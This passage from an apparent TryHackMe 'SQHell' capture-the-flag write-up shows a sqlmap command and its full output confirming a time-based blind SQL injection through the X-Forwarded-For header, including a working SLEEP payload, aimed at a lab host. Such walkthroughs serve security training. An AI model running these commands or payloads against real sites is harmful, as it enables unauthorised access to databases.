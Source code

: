 Just like the last script this is a simple loop, repeating the same time based check using the XFF header as we did with curl:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# python3 flag2.py
Flag found:  THM{FLAG2:<HIDDEN>}
```

It's not the fastest but it will get you the flag eventually!

## Flag 2 - Blind/Time - SQLMap Method

That was fun writing our own scripts, but realistically we'd probably just use SQLMap if we have it available. With knowledge from before about trying X-Forwarded-For as a method to exploit the website, let's do the same initial test with SQLMap to check:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap  -u http://sqhell.thm --headers="X-forwarded-for:1*" --dbms mysql
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:40:59 /2021-06-20/
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[22:41:10] [INFO] testing connection to the target URL
[22:41:11] [INFO] testing if the target URL content is stable
[22:41:11] [INFO] target URL content is stable
[22:41:11] [INFO] testing if (custom) HEADER parameter 'X-forwarded-for #1*' is dynamic
[22:41:11] [WARNING] (custom) HEADER parameter 'X-forwarded-for #1*' does not appear to be dynamic
[22:41:11] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'X-forwarded-for #1*' might not be injectable
[22:41:11] [INFO] testing for SQL injection on (custom) HEADER parameter 'X-forwarded-for #1*'
[22:41:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:41:12] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:41:12] [INFO] testing 'Generic inline queries'
[22:41:12] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:41:12] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:41:12] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)
[22:41:23] [INFO] (custom) HEADER parameter 'X-forwarded-for #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:41:33] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:41:33] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:41:34] [INFO] checking if the injection point on (custom) HEADER parameter 'X-forwarded-for #1*' is a false positive
(custom) HEADER parameter 'X-forwarded-for #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2608 FROM (SELECT(SLEEP(5)))OFyU) AND 'UzdB'='UzdB
---
[22:41:53] [INFO] the back-end DBMS is MySQL
```